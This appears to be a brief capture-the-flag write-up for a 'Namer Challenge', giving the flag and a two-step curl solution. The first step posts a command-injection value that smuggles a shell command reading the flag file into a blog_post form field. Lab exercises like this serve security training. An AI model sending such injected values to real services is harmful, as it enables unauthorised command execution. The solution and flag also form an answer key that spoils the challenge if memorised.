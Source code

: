 # Namer Challenge

 __Points: 400__ </br>
 __FLAG{metalrustsmusiclastsforever}__

  Solution:
  1. curl -X POST --data "blog_post=ls%20{cat,flag}" "localhost:7001/upload"
  2. curl "localhost:7001"
